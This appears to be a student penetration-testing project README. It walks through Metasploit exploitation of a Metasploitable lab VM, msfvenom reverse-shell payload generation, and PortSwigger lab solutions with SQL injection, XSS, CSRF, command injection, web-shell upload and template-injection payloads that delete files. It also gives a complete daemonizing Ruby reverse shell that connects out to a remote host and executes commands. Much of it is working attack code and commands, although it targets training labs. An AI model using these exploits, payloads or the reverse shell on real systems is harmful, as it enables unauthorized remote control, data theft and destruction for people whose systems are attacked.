

# Relq Project 3

### Table of Contents

1. [Metasploitable machine](#metasplotable-machine)
2. [Reverse Shell Payloads Generation](#6-reverse-shell-payloads-generation)
3. [Portswigger Labs](#7-portswigger-labs)
4. [Ruby Reverse Shell](#ruby-reverse-shell)
5. [Ruby OOP](#ruby-oop)
6. [Metasploit-fraework Structure](#metasploit-fraework-structure)
7. [Msf module](#msf-module)
8. [Vulnweb Analysis](#vulnweb-analysis)

### Metasplotable Machine

Before starting the exploitation, it is essential to identify which ports are open, what services are running on them, and what vulnerabilities these services may have.

To identify which ports are open, the versions of the services running on them, and the operating system of the target machine, we will execute the following command:

```bash
sudo nmap -sS -sV -O -p- 192.168.56.102 -o res
```

**Explanation of the command:**
- **`-sS`** — SYN scan: a stealthy scan that sends SYN packets to detect open ports.
- **`-sV`** — Service version detection: identifies the versions of services running on the detected ports.
- **`-O`** — OS detection: determines the operating system of the target machine.
- **`-p-`** — Scans all 65,535 TCP ports instead of just the default ports.
- **`-o res`** — Saves the scan results in a file named `res`.

We will obtain the following result:

```yaml
# Nmap 7.94SVN scan initiated Wed Dec 18 19:49:26 2024 as: /usr/lib/nmap/nmap -sS -sV -O -p- -oN res 192.168.56.102
Nmap scan report for 192.168.56.102
Host is up (0.00061s latency).
Not shown: 65505 closed tcp ports (reset)
PORT		STATE SERVICE	VERSION
21/tcp	 openftp			vsftpd 2.3.4
22/tcp	 openssh			OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp	 opentelnet		Linux telnetd
25/tcp	 opensmtp		Postfix smtpd
53/tcp	 opendomain		ISC BIND 9.4.2
80/tcp	 openhttp		Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp	openrpcbind	2 (RPC "#100000")
139/tcp	opennetbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp	opennetbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp	openexec		netkit-rsh rexecd
513/tcp	openlogin		 OpenBSD or Solaris rlogind
514/tcp	openshell		 Netkit rshd
1099/tcpopenjava-rmi	 GNU Classpath grmiregistry
1524/tcpopenbindshell	Metasploitable root shell
2049/tcpopennfs			2-4 (RPC "#100003")
2121/tcpopenftp			ProFTPD 1.3.1
3306/tcpopenmysql		 MySQL 5.0.51a-3ubuntu5
3632/tcpopendistccd	distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcpopenpostgresqlPostgreSQL DB 8.3.0 - 8.3.7
5900/tcpopenvnc			VNC (protocol 3.3)
6000/tcpopenX11			(access denied)
6667/tcpopenirc			UnrealIRCd
6697/tcpopenirc			UnrealIRCd
8009/tcpopenajp13		 Apache Jserv (Protocol v1.3)
8180/tcpopenhttp		Apache Tomcat/Coyote JSP engine 1.1
8787/tcpopendrb			Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
35272/tcp openstatus		1 (RPC "#100024")
41148/tcp openjava-rmi	 GNU Classpath grmiregistry
41158/tcp openmountd		1-3 (RPC "#100005")
55381/tcp opennlockmgr	 1-4 (RPC "#100021")
MAC Address: 08:00:27:C9:C9:29 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Hosts: metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
# Nmap done at Wed Dec 18 19:51:34 2024 -- 1 IP address (1 host up) scanned in 128.25 seconds
```

To identify vulnerabilities, we will use the following command:

```bash
sudo nmap -sS --script=vuln -p- 192.168.56.102 -o vulns
```

**Explanation of the command:**
- **`-sS`** — SYN scan: a stealthy scan that identifies open ports.
- **`--script=vuln`** — Uses Nmap's vulnerability detection scripts to identify known vulnerabilities on the target system.
- **`-p-`** — Scans all 65,535 TCP ports, not just the default ones.
- **`-o vulns`** — Saves the results in a file named `vulns`.

This scan will attempt to detect known vulnerabilities in the services running on the open ports. The output will list any identified vulnerabilities along with descriptions and potential exploit methods.

Alright, let's move on to exploitation!

### 1. vsFTPd version 2.3.4 backdoor

For port **21 (FTP)**, we received the following result:


This tells us that there is a vulnerability on this port — **vsFTPd version 2.3.4 backdoor**.
To exploit it, we will use **msfconsole**, which can be launched with the following command in the terminal:

```bash
msfconsole
```

Now, when we've entered **msfconsole**, we use the `search` command to find the exploit that we can use for the attack:

```bash
search vsftpd backdoor
```
We also can use `searchsploit` to find payload:

```bash
searchsploit vsftpd backdoor
```

We will get the following result:


We need to copy the payload with folowing command:

```bash
searchsploit -m unix/remote/17491.rb
```

After that we need to copy it to metasploit exploit folder:

```bash
sudo mv ./17491.rb /usr/share/metasploit-framework/modules/exploits/unix/ftp/
```

And we can use exploit:
```bash
use exploit/unix/ftp/17491
```

For msfconsole search we will get the following result, showing that the exploit has been found and we can use it by selecting the module with `use 0`:


In this case, we can see that the exploit for **vsFTPd 2.3.4 backdoor** is available under the module path **`exploit/unix/ftp/vsftpd_234_backdoor`**.

To use this exploit, we type:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
or
```bash
use 0
```

This will load the exploit, and we can then proceed to set up the target and exploit the vulnerability.

To view the options that we need to set for the exploit, use the following command in msfconsole:

```bash
options
```
This will display the available options for the exploit, including required and optional parameters


To set the **RHOSTS** option, which defines the target machine's IP address, you can use the following command in **msfconsole**:

```bash
set RHOSTS <target ip>
```

> **Note:** Replace **\<target ip\>** with the IP address of the target machine.

After all the options are set, we can use one of the following commands to start the exploit:

```bash
run
```
or
```bash
exploit
```

Both commands do the same thing — they launch the attack.
If the exploit is successful, we will get a **reverse shell** or some form of access to the target system.


After we see the following output:


It means the exploit was **successful**, and we now have a **command shell** on the target machine.

Since we have **UID 0 (root)**, we have **root-level access**, meaning we can execute any command on the target system. At this point, you can run commands like:

```bash
whoami
hostname
pwd
ls
```

From this point, you have full control of the machine.

To get **more powerful features** and capabilities, we can upgrade our shell to a **Meterpreter session**:

1. **Send the current session to the background**:
	Use one of the following commands:
	```bash
	bg
	```
	or press
	**CTRL + Z**
	This will move the current shell session to the background.

2. **List active sessions**:
	Use the following command to see all active sessions:
	```bash
	sessions
	```

	The output will look something like this:

	

	Here, **1** is the **Session ID**.

3. **Upgrade the shell to a Meterpreter session**:
	Use the following command, replacing **1** with the session ID you want to upgrade:
	```bash
	sessions -u 1
	```

4. **Verify that the session has been upgraded**:
	Run:
	```bash
	sessions
	```

	If successful, you will see something like this:

	

Now you have a **Meterpreter session**, which provides access to many advanced features like:
- **File upload/download**
- **Webcam snapshots**
- **Keylogging**
- **Process migration**

To interact with the Meterpreter session, use:
```bash
sessions -i 2
```

Once inside the Meterpreter session, you can type:
```bash
help
```
to see all available Meterpreter commands.

### 2. Samnba usermap script

To exploit this vulnerability, we will use the **`exploit/multi/samba/usermap_script`** module in **Metasploit**:

1. **Open `msfconsole`**:

	```bash
	msfconsole
	```

2. **Load the exploit module**:
	```bash
	use exploit/multi/samba/usermap_script
	```

3. **Set options**:
	After loading the exploit, you'll need to configure the necessary options like **RHOSTS** (the target IP).

	You can list the required options by typing:
	```bash
	show options
	```

4. **Set the target IP**:
	```bash
	set RHOSTS <target IP>
	```
5. **Set the local IP**

	When using a virtual machine (VM), it's often necessary to configure LHOST (local host) to ensure the target machine can communicate back to your attacking system.

	```bash
	SET LHOST <local IP>
	```

	

Now we can type 
```bash
run
```
or
```bach
exploit
```


And as we can see, we have a shell with root privileges.

### 3. Java RMI Server

To exploit this vulnerability, we will use the **`exploit/multi/misc/java_rmi_server`** module in **Metasploit**:

1. **Open `msfconsole`**:

	```bash
	msfconsole
	```

2. **Load the exploit module**:
	```bash
	use exploit/multi/misc/java_rmi_server
	```

3. **Set options**:
	After loading the exploit, you'll need to configure the necessary options like **RHOSTS** (the target IP) and **LPORT** (the listening port for the connection).

	You can list the required options by typing:
	```bash
	show options
	```

4. **Set the target IP**:
	```bash
	set RHOSTS <target IP>
	```

5. **Set the local IP**:
	When using a virtual machine (VM), it's often necessary to configure **LHOST** (local host) to ensure the target machine can communicate back to your attacking system.

	```bash
	set LHOST <local IP>
	```

6. **Run the exploit**:
	Now, you can execute the exploit by typing:
	```bash
	run
	```

After running the exploit, you should see output similar to this:


And as we can see, a Meterpreter session has been established, allowing us to interact with the compromised system with root privileges.

### 4. DistCC Exploit

To exploit the DistCC vulnerability on port 3632, we will use the **`exploit/unix/misc/distcc_exec`** module in **Metasploit**. This exploit allows us to execute arbitrary commands on the target system. Here's how to proceed:

1. **Open `msfconsole`**:

	```bash
	msfconsole
	```

2. **Load the exploit module**:
	```bash
	use exploit/unix/misc/distcc_exec
	```

3. **Set options**:
	After loading the exploit, configure the necessary options like **RHOSTS** (target IP) and **PAYLOAD**.

	You can list the required options by typing:
	```bash
	show options
	```

4. **Set the target IP**:
	```bash
	set RHOSTS <target IP>
	```

5. **Set the payload**:
	Change the payload to **`cmd/unix/reverse_perl`** for executing a Perl reverse shell.
	```bash
	set PAYLOAD cmd/unix/reverse_perl
	```

6. **Set LHOST**:
	Configure **LHOST** (your local IP) to ensure the target machine can connect back to you.
	```bash
	set LHOST <local IP>
	```
	

Execute the exploit by typing:
```bash
run
```

After running the exploit, you should see output similar to this:


Now, you have a shell connection with the target. Use this shell to execute further commands or maintain persistence on the compromised system.

### 5. UnrealIRCd Exploit

To exploit the backdoor vulnerability in UnrealIRCd on port 6667, we will use the **`exploit/unix/irc/unreal_ircd_3281_backdoor`** module in **Metasploit**.

---

#### Steps to Exploit:

1. **Open `msfconsole`**:
	```bash
	msfconsole
	```

2. **Load the exploit module**:
	```bash
	use exploit/unix/irc/unreal_ircd_3281_backdoor
	```

3. **List options**:
	Display all configurable options for this exploit.
	```bash
	show options
	```

4. **Set the target IP (`RHOSTS`)**:
	```bash
	set RHOSTS <target IP>
	```

5. **Set `LHOST`**:
	Configure your local IP address to receive the reverse shell connection.
	```bash
	set LHOST <local IP>
	```

6. **Change the payload to Perl reverse shell**:
	```bash
	set PAYLOAD cmd/unix/reverse_perl
	```

	

Launch the attack by running:
```bash
run
```

---

If successful, you'll see output similar to:


You now have a Perl-based reverse shell session on the target machine with access for further exploitation.

### 6. Reverse Shell Payloads Generation
---

To generate reverse shell payloads, we will use msfvenom.

#### Python Reverse Shell
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST="Local IP for listen" LPORT="port for listen" -o reverse_shell.py
```

#### Exe Reverse Shell
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST="Local IP for listen" LPORT="port for listen" -f exe -o reverse_shell.exe
```

#### Bash Reverse Shell
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST="Local IP for listen" LPORT="port for listen" -f raw -o reverse_shell.sh
```

---

#### Flags

`-p`: Specifies the payload to use.

`LHOST`: The local host (IP address) that will listen for the reverse shell connection from the target.

`LPORT`: The local port on which the reverse shell connection will be received.

`-f`: Specifies the format of the payload.

`-o`: Defines the output file where the generated payload will be saved.

---

#### Listen the connection

To listen for the incoming reverse shell connection, we will use **`msfconsole`** and the **`exploit/multi/handler`** module.

1. **Open `msfconsole`**:
	First, open the **Metasploit console** by typing:
	```bash
	msfconsole
	```

2. **Use the `exploit/multi/handler` module**:
	This module is used to handle incoming reverse connections from payloads like the reverse shell we created earlier.
	```bash
	use exploit/multi/handler
	```

3. **Set the payload**:
	Specify the same payload used to generate the reverse shell. If we used **`python/meterpreter/reverse_tcp`** earlier, we set it here as well:
	```bash
	set PAYLOAD python/meterpreter/reverse_tcp
	```

4. **Set the listener IP (`LHOST`)**:
	Set **`LHOST`** to the IP address of your machine where you'll be receiving the reverse connection.
	```bash
	set LHOST <your IP>
	```

5. **Set the listener port (`LPORT`)**:
	Set **`LPORT`** to the port where the reverse connection will be received (same as the one used when generating the payload).
	```bash
	set LPORT <your listening port>
	```

6. **Start the handler**:
	Finally, run the handler to start listening for incoming connections:
	```bash
	run
	```

	

And after the payload is executed on the target machine, we will get a meterpreter shell on that machine.

#### Target Machine


#### Local Machine


### 7. Portswigger Labs
---
#### 1) SQL injection attack, listing the database contents on non-Oracle databases

- From the HTTP requests, we find the request where the category is being sent, right-click on it, and select "Send to Repeater." From the HTTP requests, we find the request where the category is being sent, right-click on it, and select "Send to Repeater"

- To use UNION, we need to determine how many columns are returned by the request. To do this, we use the following command, combining it with the category value:

	```sql
	UNION SELECT NULL, NULL--
	```
	> NOTE: Before the command, a single quote should be added, and spaces should be replaced with +.

	Gradually increasing or decreasing the number of NULLs allows us to determine how many columns are returned, as an incorrect number will result in an error

- To retrieve the list of tables in the database use the following command

	```sql
	 UNION SELECT table_name, NULL FROM information_schema.tables--
	```
	> NOTE: Before the command, a single quote should be added, and spaces should be replaced with +.

- Find the name of the table containing user credentials that have the `users_abcdef` format

- Use thw folowing command to get information about columns in a table:

	```sql
	UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--
	```
	> NOTE: Before the command, a single quote should be added, and spaces should be replaced with +.

- Find the column names that contain usernames and passwords and select that with the following command:
	```sql
	UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
	```

- Find the password for the `administrator` and use it to log in
---
#### 2) SQL injection attack, querying the database type and version on MySQL and Microsoft

- From the HTTP requests, we find the request where the category is being sent, right-click on it, and select "Send to Repeater." From the HTTP requests, we find the request where the category is being sent, right-click on it, and select "Send to Repeater"

- To use UNION, we need to determine how many columns are returned by the request. To do this, we use the following command, combining it with the category value:

	```sql
	UNION SELECT NULL, NULL#
	```
	> NOTE: Before the command, a single quote should be added, and spaces should be replaced with +.

	Gradually increasing or decreasing the number of NULLs allows us to determine how many columns are returned, as an incorrect number will result in an error.

- After we know the number of values ​​received, in order to get the version, we use the following command

	```sql
	UNION SELECT @@version, NULL#
	```
	> NOTE: Before the command, a single quote should be added, and spaces should be replaced with +.

#### 3) SQL injection attack, querying the database type and version on Oracle

- From the HTTP requests, we find the request where the category is being sent, right-click on it, and select "Send to Repeater." From the HTTP requests, we find the request where the category is being sent, right-click on it, and select "Send to Repeater"

- To use UNION, we need to determine how many columns are returned by the request. To do this, we use the following command, combining it with the category value:

	```sql
	UNION SELECT NULL, NULL FROM dual--
	```
	> NOTE: Before the command, a single quote should be added, and spaces should be replaced with +.

	Gradually increasing or decreasing the number of NULLs allows us to determine how many columns are returned, as an incorrect number will result in an error

- After we know the number of values received, in order to get the version, we use the following command

	```sql
	UNION SELECT BANNER, NULL FROM v$version--
	```
	> NOTE: Before the command, a single quote should be added, and spaces should be replaced with +.

#### 4) DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

- In the search field, enter the following payload to call the alert function:

	```javascript
	{{constructor.constructor('alert(1)')()}}
	```

#### 5) Reflected XSS into HTML context with most tags and attributes blocked

- Open Burp's browser and use the search function in the lab. Capture the resulting request in Burp and send it to Burp Intruder. 

- Replace the search term in the request with `<>`, place the cursor between the angle brackets,
and click **Add §**. It should look like `<§§>`. Copy tags from the XSS cheat sheet and paste them
into the payload list in Burp Intruder. Start the attack. Note that most payloads cause a 400 response, but the `<body>` tag causes a 200 response.

- Replace the search term with `<body%20=1>`, place the cursor before the `=` character, and click **Add §**. Copy events from the XSS cheat sheet and paste them into the payload list. Start the attack. Note that most payloads cause a 400 response, but `onresize` causes a 200 response.

- Go to the exploit server and paste the following code, replacing `YOUR-LAB-ID` with your lab ID:
	```html
	<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
	```
	Save and deliver the exploit to the victim.

#### 6) CSRF where token validation depends on request method

- Log in using `wiener:peter` credentials via Burp's browser.

- Submit the "Update email" form and capture the request in **Proxy > HTTP history**.

- Send the request to Repeater, modify the `csrf` parameter, and observe rejection.

- Change the request method to GET in Repeater, remove the body, and test the request. Verify CSRF validation is bypassed.

- Create an HTML form with the following template:

	```html
	<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
		<input type="hidden" name="email" value="hacked@gmail.com">
	</form>
	<script>
		document.forms[0].submit();
	</script>
	```
	Replace the URL with the captured one and adjust the parameters if necessary.
	
- Paste the HTML exploit into the exploit server's **Body** section and click **Store**.

- Test the exploit using **View exploit**, update the email address in the exploit, and click **Deliver to victim**.

#### 7) CSRF where token validation depends on token being present

- Log in with `wiener:peter` using Burp's browser.

- Submit the "Update email" form and capture the request in **Proxy > HTTP history**.

- Delete the `csrf` parameter and send the request. It will be accepted.

- Create an HTML exploit with the following template:

	```html
	<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
		 <input type="hidden" name="email" value="hacked@gmail.com">
	</form>
	<script>
		 document.forms[0].submit();
	</script>
	```
	Replace `YOUR-LAB-ID` with your lab ID.
	
- Paste the HTML exploit into the exploit server and click **Store**.

- Test the exploit with **View exploit**, then **Deliver to victim**.

#### 8) CSRF where token is not tied to user session

- Log in to your account using the provided credentials (e.g., `wiener:peter`).

- Submit the "Update email" form and intercept the resulting request using Burp Suite's Proxy.

- Note the CSRF token in the intercepted request and copy its value.

- Drop the intercepted request (right-click on the request in Burp Suite and select "Drop").

- Log in to the other account (e.g., `carlos:montoya`) in a private/incognito browser window.

- Send the update email request into Burp Suite's Repeater.

- Replace the CSRF token with the one you copied from the first account.

- Create the exploit HTML page using the appropriate form action and CSRF token (use the following structure):

	```html
	<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
		 <input type="hidden" name="email" value="hacker@gmail.com">
		 <input type="hidden" name="csrf" value="your_copied_token">
	</form>
	<script>
		 document.forms[0].submit();
	</script>
	```
- Host the HTML page on your exploit server and store it.

- Verify the exploit by checking the resulting HTTP request and response.

- Deliver the exploit to the victim (click "Deliver to victim" in Burp Suite) to complete the lab.

#### 9) Blind OS command injection with time delays

- Go to the feedback sending page.

- Fill in the fields and intercept the request from buirp sute.

- Add following command to email and send reguest
	```bash
	||sleep 10||
	```
	> Note: Replace space with + in the URL

#### 10) Blind OS command injection with output redirection

- Go to the feedback sending page.

- Fill in the fields and intercept the request from buirp sute.

- Replace email value with folowing command:
	```bash
	||whoami>/var/www/output.txt||
	```

- Click **View Details** of one of the products and send the request with the `filename` parameter to Repeater in Burp.

- Replace the filename parameter with the file where you redirected the whoami command (in my case, `output.txt`).

#### 11) Web shell upload via path traversal

- Log in to your account with the provided credentials (`wiener`:`peter`).

- Create a PHP script (`exploit.php`) that fetches Carlos's 
secret:
	```php
	<?php echo file_get_contents('/home/carlos/secret'); ?>
	```
- Upload `exploit.php` as your avatar.

- In Burp Suite, go to Proxy > HTTP History and find the `POST /my-account/avatar` request and send this request to Repeater.

- Change `filename="avatar.jpg"` to `filename="..%2fexploit.php"` and send request.

- In Burp Suite, go to `Proxy` > `HTTP History` and find the `GET /my-account` request and send this request to Repeater.

- Change `GET /my-account` to `GET /files/exploit.php`, send request and confirm that Carlos’s secret is returned in the response.

- Submit the secret to complete the lab.

#### 12) Web shell upload via extension blacklist bypass

- **Log in** using `wiener:peter`.

- **Upload an images/image** as your avatar and intercept the **POST /my-account/avatar** request in Burp Suite.

- **Create a PHP file** (`exploit.php`) with the content:
	```php
	<?php echo file_get_contents('/home/carlos/secret'); ?>
	```

- Modify the upload request in Burp:
	- Change `filename` to `.htaccess`.
	- Set `Content-Type` to `text/plain`.
	- Replace file content with:
	```apache
	AddType application/x-httpd-php .l33t
	```
	- Send the request to upload the `.htaccess` file.

- Change `exploit.php` to `exploit.l33t` and upload your PHP script with this new extension.

- In Burp, send a **GET request** to `/files/avatars/exploit.l33t` to execute the script.

- Extract Carlos's secret from the response and submit it to solve the lab.

#### 13) Basic server-side template injection (code context)

- Log in using the provided credentials (`wiener:peter`) and post a comment on any blog post.

- Go to "My account" and change the author display setting.

- Intercept the POST request to `/my-account/change-blog-post-author-display` in Burp.

- Modify the `blog-post-author-display` parameter to test for injection: `user.name}}{{10+10}}`.

- Reload the page with your comment. If `20` appears, the vulnerability exists.

- Prepare a payload to delete the file: 
	```python
	{{ os.system('rm /home/carlos/morale.txt') }}
	```

- URL-encode the payload:
	```perl
	user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
	```

- Replace the `blog-post-author-display` parameter in Burp with the encoded payload.

- Reload the page with your comment to execute the template and delete the file.

#### 14) Basic server-side template injection

- Click on **View details** of the first product, and you will see the message **Unfortunately this product is out of stock** on the screen.

- In Burp's HTTP history, find the request that contains the `message` parameter with this message and send it to Repeater.

- Modify the value of the `message` parameter to the following payload:
	```erb
	<%= system("rm /home/carlos/morale.txt") %>
	```
	> Note: Before sending, make sure to URL encode the payload as follows:
		`<%25%3d+system("rm+/home/carlos/morale.txt")+%25>`

### Ruby reverse shell

#### Explanation

```ruby
if Process.fork
	exit
end
Process.setsid
if Process.fork
	exit
end
STDIN.reopen('/dev/null')
STDOUT.reopen('/dev/null', 'a')
STDERR.reopen('/dev/null', 'a')
```
This part detaches the program from the terminal, making it a background daemon. It ensures the process runs independently by forking twice and redirecting standard input, output, and error to `/dev/null`.

```ruby
HOST = "host_machine_ip"
PORT = "port_for_listen"
sock = TCPSocket.new HOST, PORT
```
This part establishes a TCP connection to the specified remote host and port.

```ruby
while true
	begin	
		sock.print `pwd`.chomp + "$>"
		command = sock.gets&.strip
		next if command.nil?

		if command == "exit"
			break
		elsif command.start_with?("cd ")
			Dir.chdir(command[3..])
		else
			output = `#{command}`
			sock.puts output
		end
	rescue Errno::ENOENT => e
		sock.puts "Error: #{e.message}"
	end
end
```
This part continuously waits for and processes commands received from the remote host. It displays the current directory as a prompt, executes the commands, and sends the results back. It supports changing directories (`cd`) and exits the loop if the `exit` command is received.

```ruby
sock.close
```
This part closes the TCP connection after the loop ends.

### Ruby OOP

#### Explanation

```ruby
class Animal
	def initialize(name, year)
		@name = name
		@year = year
	end

	def speak()
		puts "Grr..."
	end

	def year
		@year
	end

	def name
		@name
	end
end
```
This is the base class `Animal`.  
- It has `@name` (name of the animal) and `@year` (its age).  
- The `speak` method makes a generic animal sound `"Grr..."`.  
- The `year` and `name` methods return the animal's age and name.  

---

```ruby
class Dog < Animal
	def initialize(name, year)
		super(name, year)
	end

	def speak()
		puts "Woof!"
	end
end
```
This is the `Dog` class, which inherits from `Animal`.  
- It reuses `Animal`'s `initialize` method using `super`.  
- Overrides the `speak` method to make a dog sound `"Woof!"`.  

---

```ruby
class Cat < Animal
	def initialize(name, year, hungry)
		super(name, year)
		@hungry = hungry
	end

	def speak()
		puts "Meow!"
	end

	def cat_is_hungry()
		if @hungry == 1
			puts "I am hungry!"
		else
			puts "I am not hungry!"
		end
	end
end
```
This is the `Cat` class, which also inherits from `Animal`.  
- It adds an extra attribute `@hungry` to check if the cat is hungry.  
- Overrides `speak` to make a cat sound `"Meow!"`.  
- Adds a method `cat_is_hungry` to show if the cat is hungry or not.  

---

#### Example Objects
```ruby
animal = Animal.new("Dino", 65432343)
puts "Animal says:"
animal.speak
puts "It is #{animal.year} years old and its name is #{animal.name}"
```
Creates an `Animal` named "Dino" and prints its sound, age, and name.

---

```ruby
dog = Dog.new("Rex", 3)
puts "Dog says:"
dog.speak
puts "It is #{dog.year} years old and its name is #{dog.name}"
```
Creates a `Dog` named "Rex" and prints its sound, age, and name.

---

```ruby
cat = Cat.new("Rex", 3, 0)
puts "Cat says:"
cat.speak
puts "It is #{cat.year} years old and its name is #{cat.name}"
cat.cat_is_hungry()
```
Creates a `Cat` named "Rex", checks if it's hungry, and prints its sound, age, and hunger state.  

---

#### Output
```
Animal says:
Grr...
It is 65432343 years old and its name is Dino

Dog says:
Woof!
It is 3 years old and its name is Rex

Cat says:
Meow!
It is 3 years old and its name is Rex
I am not hungry!
```
### Metasploit-fraework structure

To find where the metasploit files are located you can use the following command:
```bash
find / -name "metasploit-framework" -type d 2>/dev/null
```

`/`: Specifies the starting directory for the search

`-name`: Specifies the name of the file or directory you are looking for.

`-type`: Limits the search to directories.

`2>/dev/null`: Redirects error messages (file descriptor 2) to /dev/null.

in my case the result was as follows:


in `/usr/share/metasploit-framework` we will see the following files and directories:


we are interested in `modules` and `scripts`. In `modules` we can find all **auxiliary**, **encoders**, **evasion**, **exploits**, **nops**, **payloads**, **post**.

In `scripts` there will be all the scripts that are used by metasploit.

```text/plain
scripts/
├── README.md
├── meterpreter
│   ├── autoroute.rb
│   ├── duplicate.rb
│   ├── enum_firefox.rb
│   ├── enum_vmware.rb
│   ├── event_manager.rb
│   ├── file_collector.rb
│   ├── ...
│   └── wmic.rb
├── resource
│   ├── auto_brute.rc
│   ├── auto_cred_checker.rc
│   ├── auto_pass_the_hash.rc
│   ├── auto_win32_multihandler.rc
│   ├── autocrawler.rc
│   ├── autoexploit.rc
│   ├── ...
│   └── wmap_autotest.rc
└── shell
    └── migrate.rb

```

### Msf module

#### Explanation:

```ruby
require 'msf/core'
```
Imports the Metasploit framework core library.

---

```ruby
class MetasploitModule < Msf::Auxiliary
	include Msf::Auxiliary::Scanner
```
Defines a new Metasploit auxiliary module, inheriting from `Msf::Auxiliary` and including the `Msf::Auxiliary::Scanner` module for scanning functionality.

---

```ruby
def initialize(info = {})
	super(update_info(info,
		'Name'			=> 'TCP port scanner',
		'Description'		=> 'Scan port on target host',
		'Author'		=> 'Andranik Adyan',
		'License'		=> MSF_LICENSE
	))
```
Initializes the module with metadata like its name, description, author, and license.

---

```ruby
register_options(
	[
		Opt::RHOSTS(),
		Opt::RPORT(80, true)
	]
)
```
Registers options for the target host (`RHOSTS`) and target port (`RPORT`, default is 80).

---

```ruby
deregister_options('THREADS')
```
Removes the `THREADS` option to prevent its use in the module.

---

```ruby
def connect_to_host(host, port)
	sock = Rex::Socket::Tcp.create(
		'PeerHost'	=> host,
		'PeerPort'	=> port,
		'Context'	=> {"Msf" => framework}
	)
	print_good("#{host}:#{port} is open!")
	sock.close()
end
```
Tries to connect to the target host and port using TCP. If successful, it prints a message and closes the connection.

---

```ruby
def run()
	rhost = datastore["RHOSTS"]
	rport = datastore["RPORT"]
	
	print_status("Target host: #{rhost}")
	print_status("Target port: #{rport}")
```
Retrieves the target host (`RHOSTS`) and port (`RPORT`) from the datastore and prints them.

---

```ruby
begin
	print_status("Try to connect #{rhost}:#{rport}")
	connect_to_host(rhost, rport)
rescue => e
	print_error("Failed to connect to #{rhost}:#{rport} - #{e}")
end
```

#### Usage


### Vulnweb Analysis

#### About Vulnweb
The website [testphp.vulnweb.com](http://testphp.vulnweb.com/) is a deliberately vulnerable web page designed for training and testing security tools like Burp Suite. It is used for hands-on practice in identifying vulnerabilities such as SQL injections, XSS (Cross-Site Scripting), and other common web application weaknesses, all within a controlled environment. This makes it a safe platform for penetration testing and web application analysis, without the risk of harming real websites.

Thus, [testphp.vulnweb.com](http://testphp.vulnweb.com/) is an ideal site for testing various attack techniques and security tools, offering users an opportunity to learn about real vulnerabilities and methods to mitigate them.

#### Analysis

- When visiting the homepage, we receive the following request and response:
	

	In the response, we can see that the site is running on Nginx 1.19.0, PHP 5.6.40-38 on Ubuntu 20.04.1, which may have vulnerabilities.

- When we enter one of the categories, we get the following request and response:
	
	
	When adding -- to the URL parameter cat=1 on the site, it results in an SQL error, which suggests the possibility of an SQL Injection vulnerability.

- If we navigate through the categories, open one of them, and then open one of the products, changing the filename (e.g., from `1.jpg` to something else), we can potentially access information from the `/proc` directory. Specifically, we can try to view files like `/proc/self/status`, `/proc/meminfo`, `/proc/version`, and `/proc/cpuinfo`.

	By manipulating the file name or path parameters in the URL, we might be able to exploit a Local File Inclusion (LFI) vulnerability. This could allow us to retrieve sensitive system information from `/proc`, such as:

	1. **/proc/self/status**: Contains details about the current process, including memory usage, thread count, and other important process statistics.
	2. **/proc/meminfo**: Provides detailed information about the system's memory usage, including total, free, and available memory.
	3. **/proc/version**: Displays information about the Linux kernel version, which can be useful for understanding the system's capabilities and vulnerabilities.
	4. **/proc/cpuinfo**: Gives detailed information about the CPU, such as the number of cores, architecture, and features.

	